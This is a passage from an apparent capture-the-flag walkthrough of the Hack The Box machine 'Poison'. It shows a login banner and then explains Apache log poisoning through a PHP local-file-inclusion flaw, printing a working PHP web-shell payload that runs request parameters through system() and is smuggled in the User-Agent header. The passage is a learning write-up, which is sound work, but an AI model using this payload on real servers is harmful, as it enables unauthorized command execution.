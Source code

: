 ```
Edit /etc/motd to change this login announcement.
Want to use sed(1) to edit a file in place?  Well, to replace every 'e' with
an 'o', in a file named 'foo', you can do:

        sed -i.bak s/e/o/g foo

And you'll get a backup of the original in a file named 'foo.bak', but if you
want no backup:

        sed -i '' s/e/o/g foo
charix@Poison:~ % id
uid=1001(charix) gid=1001(charix) groups=1001(charix)
charix@Poison:~ %
```

## User Own (Log Poisoning PHP LFI Vulnerability)

Whenever you find an LFI vulnerability, chances are you can poison the Apache httpd logs with PHP code and execute it.
**Keep in mind that with this kind of exploit, you only get one chance for your payload, since all it takes is one error for things to permanently go wrong (until a system administrator goes in and cleans up the logs)!**

I used the folloing code for poisoning the Apache logs with PHP code:

```php
<?php if(isset($_REQUEST['cmd'])){ echo '<pre>'; $cmd = ($_REQUEST['cmd']); system($cmd); echo '</pre>'; die; }?>
```

I then sent the following HTTP request with Burp:

![](/assets/images/htb-poison/poison-log-poisoning-request.png)

Notice how the PHP payload is in the `User-Agent` field. I did this because the Apache access logs generally log the user agent.
If I can include the Apache access log file, via LFI, then I will execute that code as a backdoor.

From the /etc/passwd file, I was able to determine that Poison's operating system was running FreeBSD 11.1.
On this Linux distro, the Apache access log files are located at `/var/www/httpd-access.log`.

I then tested the LFI:

![](/assets/images/htb-poison/poison-log-poisoning-test.png)
